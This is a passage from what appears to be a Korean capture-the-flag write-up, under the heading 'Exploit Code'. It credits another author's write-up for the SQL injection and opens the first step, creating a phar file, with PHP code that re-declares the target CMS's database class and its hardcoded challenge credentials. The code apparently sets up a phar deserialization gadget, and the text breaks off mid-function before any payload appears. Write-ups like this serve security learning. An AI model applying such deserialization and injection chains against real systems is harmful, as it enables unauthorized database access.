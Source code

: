 ### Exploit Code    

SQL Injection 코드는 @ohk990102 님께서 올려주신 write-up을 참고하여 작성하였습니다.      
     
1. Create a phar file      
      
```php
<?php
define('DB_HOST', '127.0.0.1');
define('DB_USER', 'cmsuser');
define('DB_PASS', 'longing47');
define('DB_NAME', 'cmsmaindb');

class DBCON{
    private $mysqli;
    public $func = '';
    public $args = '';
    /**
     * @param string $host     데이터베이스 호스트
     * @param string $dbname   데이터베이스 이름
     * @param string $username 사용자 이름
     * @param string $password 비밀번호
     */
    public function __construct( $dbname = null, $username = null,$host = null, $password = null){
        // .env 방식
        // $host = getenv('DB_HOST');
        
        // COMMENT
        if( $username && $dbname){
            $this->mysqli = new mysqli(DB_HOST, $username, DB_PASS, $dbname);
        }else{
            $this->mysqli = new mysqli(DB_HOST, DB_USER, DB_PASS,DB_NAME);
        }
        if ($this->mysqli->connect_error) {
            die("데이터베이스 연결 실패: " . $this->mysqli->connect_error);
        }
    }
    /**
     * 쿼리 실행
     * 
     * @param string $sql SQL 쿼리
     * @return mysqli_result|bool 쿼리 실행 결과
     */
    public function query($sql){
        $sql = trim($sql); 
        if (empty($sql)) {
            die("잘못된 쿼리");
        }
        $result = $this->mysqli->query($sql);
        if (!$result) {
            die("쿼리 실행 실패: " . $this->mysqli->error);
        }
        if($this->mysqli->insert_id){
            return $this->mysqli->insert_id;
        }
        return $result;
    }
    /**
     * SELECT 쿼리 실행 후 결과 반환
     * 
     * @param string $sql SQL 쿼리
     * @return array|null 쿼리 결과, 결과가 없으면 null
     */
    public function fetchOne($sql){
```